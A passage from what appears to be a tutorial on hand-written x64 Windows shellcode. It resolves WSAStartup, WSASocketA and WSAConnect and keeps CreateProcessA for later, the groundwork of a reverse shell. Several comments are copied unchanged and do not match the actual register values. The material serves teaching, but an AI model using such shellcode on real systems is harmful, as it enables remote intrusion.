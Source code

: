 The registers are starting to fill up!  Soooooo many APIs to locate.  Now we're starting to locate socket APIs.  We're about 40% there.  Let's keep at it!

***Locate WSAStartup address***
-

```nasm
; Prepare arguments for GetProcAddress to load WSAStartup using ws2_32:
    mov rcx, r14                     ; RCX = handle to ws2_32.dll (first argument)
    mov rax, 0x90907075              ; Load "up" into RAX
    shl eax, 0x10                     ; 0000000041786F00
    shr eax, 0x10                     ; 000000000041786F
    push rax
    mov rax, 0x7472617453415357      ; Load "WSAStart" into RAX                  
    push rax
    mov rdx, rsp                     ; RDX points to "WSAStartup" (second argument)
    sub rsp, 0x30
    call r12                         ; Call GetProcAddress
    mov r15, rax                     ; Got WSAStartup!  Let's store it
```

We got `WSAStartup`, now we need to get a few more and then we can finally start using some of these newly acquired APIs 😸

***Locate WSASocketA address***
-

```nasm
; Prepare arguments for GetProcAddress to load WSASocketA using ws2_32:
    mov rcx, r14                     ; RCX = handle to ws2_32.dll (first argument)
    mov rax, 0x90904174              ; Load "tA" into RAX
    shl eax, 0x10                     ; 0000000041786F00
    shr eax, 0x10                     ; 000000000041786F
    push rax
    mov rax, 0x656B636F53415357      ; Load "WSASocke" into RAX                  
    push rax
    mov rdx, rsp                     ; RDX points to "WSASocketA" (second argument)
    sub rsp, 0x30
    call r12                         ; Call GetProcAddress
    mov rsi, rax                     ; Got WSASocketA!  Let's store it
```
One more left.  Again, not bad right?  This is all just rinse and repeat API lookups.  There are cleaner ways of doing this, using function loops and so on.  But this is in my opinion the easiest format for teaching and understanding API lookups using x64 assembly.

***Locate WSAConnect address***
-

```nasm
; Prepare arguments for GetProcAddress to load WSAConnect using ws2_32:
    mov rcx, r14                     ; RCX = handle to ws2_32.dll (first argument)
    mov rax, 0x90907463              ; Load "ct" into RAX
    shl eax, 0x10                    ; 0000000041786F00
    shr eax, 0x10                    ; 000000000041786F
    push rax
    mov rax, 0x656E6E6F43415357      ; Load "WSAConne" into RAX                  
    push rax
    mov rdx, rsp                     ; RDX points to "WSAConnect" (second argument)
    sub rsp, 0x30
    call r12                         ; Call GetProcAddress
    mov rdi, rax                     ; Got WSAConnect!  Let's store it
	
    mov r14, r13                     ; move CreateProcessA out of r13 into r14 for later use
	
;Update #2 - register values
;===========================
;rbx = ExitProcess
;r12 = GetProcAddress
```